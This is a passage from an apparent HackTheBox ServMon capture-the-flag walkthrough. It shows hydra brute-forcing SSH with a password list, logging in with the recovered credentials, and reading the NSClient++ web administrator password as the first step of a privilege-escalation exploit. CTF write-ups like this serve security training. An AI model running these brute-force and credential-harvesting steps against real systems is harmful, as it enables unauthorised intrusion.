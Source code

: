 I have a list of password, let's save it to file and using hydra to brute force in ssh service.

First, with user nathan, there is no password found.

```
┌──(Hades㉿10.10.14.4)-[5.8:35.8]~/walkthrough/hackthebox/servmon
└─$ hydra -l nathan -P Password.txt 10.10.10.184 -t 4 ssh 
<snip>
[DATA] attacking ssh://10.10.10.184:22/
1 of 1 target completed, 0 valid password found
<snip>
```

Second, I try list password with user nadine and the password `L1k3B1gBut7s@W0rk` was found.

```
┌──(Hades㉿10.10.14.4)-[5.8:35.7]~/walkthrough/hackthebox/servmon
└─$ hydra -l nadine -P Password.txt 10.10.10.184 -t 4 ssh
<snip>
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
<snip>
```

SSH to server using knowed credential 'nadine:L1k3B1gBut7s@W0rk', I got user access.

```
┌──(Hades㉿10.10.14.4)-[5.8:35.8]~/walkthrough/hackthebox/servmon
└─$ ssh nadine@10.10.10.184                   
nadine@10.10.10.184's password: 
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine
```

## Privilege Escalation

Follow exploit NSClient++ 0.5.2.35 - Authenticated Remote Code Execution `windows/local/46802.txt`

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/servmon)

> Grab web administrator password

- open `c:\program files\nsclient++\nsclient.ini`

or

- run the following that is instructed when you select forget password

```	
nadine@SERVMON c:\Temp>cd "C:\Program Files\NSClient++"
nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT
```

